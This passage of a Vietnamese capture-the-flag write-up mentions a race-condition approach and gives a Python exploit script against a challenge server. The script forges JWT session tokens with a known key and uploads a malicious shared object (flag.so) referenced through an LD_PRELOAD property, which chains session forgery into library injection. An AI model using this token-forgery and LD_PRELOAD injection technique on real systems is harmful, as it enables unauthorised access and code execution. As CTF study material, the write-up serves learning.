 Mình sẽ giải thích cách 2 sau. Cách 1 thì race condition thì đấy , race thôi....

Script của mình như sau  :  

```python 
import requests
import threading

import jwt


JWT_KEY ="FUCK"
FLAG_SO_ID  = ""
MALICOUS_SESSION  =""


url =  "http://localhost:5555"

url = "http://34.59.119.124:17005"
def register(username, password):   
    s=  requests.Session()
    data = {
        "username": username,
        "password": password,
        "display_name": "1337",
    }
    payload = {"username":"sa","user_id":FLAG_SO_ID,"display_name":"1337","user_kind":0,"flags_checked":0,"flags_found":0,
            "properties" : {
            "description" : "FUCk" ,
            "LD_PRELOAD" :  f"/app/userdata/{FLAG_SO_ID}/flag.txt",
    },"logged_in" :True}

    token = jwt.encode(payload, JWT_KEY, algorithm="HS256")
    with open("flag.so", "rb") as flag_file:
        files = {"flag": flag_file}
        cookies = {"session": token}
        response = requests.post(f"{url}/register",data=data, files=files, cookies=cookies, allow_redirects=False)
        print(response.cookies)
        return response

def login(username, password):
    s = requests.Session()
    data = {
        "username": username,
        "password": password,
    }
    response = s.post(f"{url}/login", data=data,allow_redirects=False)
    print(response.cookies)
    return s



def getProfile(session):
    res = session.get(url+'/api/profile',allow_redirects=False)
    print(res.text)
    return res.json()['user_id']


username = "sa"
password =  "s"
register(username,password)
s=  login(username,password)
FLAG_SO_ID = getProfile(s)
```